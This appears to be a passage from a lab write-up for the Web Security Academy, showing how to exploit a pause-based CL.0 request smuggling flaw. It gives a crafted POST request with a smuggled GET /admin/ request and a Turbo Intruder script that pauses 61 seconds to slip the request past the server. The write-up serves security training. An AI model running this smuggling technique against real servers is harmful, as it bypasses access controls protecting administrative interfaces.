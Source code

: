 #### Steps:

1. **Change the Connection header to `keep-alive`.**

2. **Add a complete `GET /admin` request to the body of the main request.**

Example request:
```http
POST /resources HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/ HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
````

3. **In the Python editor panel**, enter the following script to queue the requests with a 61-second pause after the headers:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

### Note:

At the end of the smuggled request, **ensure you include two `\r\n` line breaks**. Without these trailing CRLF characters, the server will not correctly interpret the smuggled request and may not grant access to the admin panel.


<img width="1896" height="863" alt="image" src="https://github.com/user-attachments/assets/3d713df9-2d0f-45a3-949b-d76f8f7596a3" />

Launch the attack. Initially, you won't see anything happening, but after 61 seconds, you should see two entries in the results table:
	○ The first entry is the **POST /resources** request, which triggered a redirect to **/resources/** as normal.
  ○  The second entry is a response to the **GET /admin/** request. Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.


  <img width="1913" height="977" alt="image" src="https://github.com/user-attachments/assets/1af59600-902e-4dab-a5b8-a00b3ee05649" />
